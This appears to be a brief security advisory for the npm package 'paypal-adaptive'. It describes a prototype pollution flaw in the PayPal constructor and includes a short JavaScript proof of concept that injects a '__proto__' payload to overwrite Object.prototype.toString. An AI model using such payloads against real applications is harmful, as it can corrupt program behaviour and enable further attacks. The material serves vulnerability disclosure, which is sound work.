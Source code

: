 # Overview

Affected versions of this package are vulnerable to Prototype Pollution. The `PayPal` function could be tricked into adding or modifying properties of `Object.prototype` using a `__proto__` payload.

# POC

```js
var PayPal = require('paypal-adaptive');
var p = new PayPal({"__proto__": {"toString": "JHU"}, "userId": "foo", "password": "bar", "signature": "abcd", "appId": "1234", "sandbox": "1234"}) console.log(({}).toString);
```

